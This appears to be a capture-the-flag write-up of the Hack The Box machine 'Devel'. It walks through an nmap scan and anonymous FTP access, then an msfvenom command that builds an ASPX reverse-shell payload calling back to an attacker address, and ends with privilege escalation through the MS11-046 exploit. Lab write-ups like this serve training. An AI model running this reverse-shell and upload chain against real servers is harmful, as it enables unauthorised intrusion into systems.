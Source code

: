 Devel without Metasploit:

![Devel](https://user-images.githubusercontent.com/55708909/91413269-7f683500-e868-11ea-8bfa-29ec7f6b1608.png)

Starting with Nmap Scan :

Nmap -sC -sV -T4 -A -O -oA Devel -p- 10.10.10.5

![Devel_nmap](https://user-images.githubusercontent.com/55708909/91413112-492ab580-e868-11ea-9a51-ab777d532f6e.png)

As we have only two ports open we are going to enumerate these two ports

FTP anonymous login is allowed

![Devel_ftp](https://user-images.githubusercontent.com/55708909/91413595-fb627d00-e868-11ea-9607-ee58e55352cc.png)

Find out that FTP & WEB server is on the same path therefore if we upload a shell from FTP we will be able to execute through web server and get reverse shell

![Devel_web](https://user-images.githubusercontent.com/55708909/91413962-7b88e280-e869-11ea-87fc-fcb94663eeca.png)

Since it is IIS7 I guess we can upload a payload in ASP OR ASPX

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f aspx > shell.aspx

Then login in through FTP Server put it & execute it through WEB Server

Here we have a reverse shell from target machine

![Devel_flag](https://user-images.githubusercontent.com/55708909/91415706-11257180-e86c-11ea-8324-b812e92cbe25.png)

After shell will copy systeminfo and ran windows-exploit-suggester.py it kind of recommended MS11-046.exe exploit so i transfer the exploit the same way i did the shell.aspx file and run MS11-046.exe and get root access to the target machine











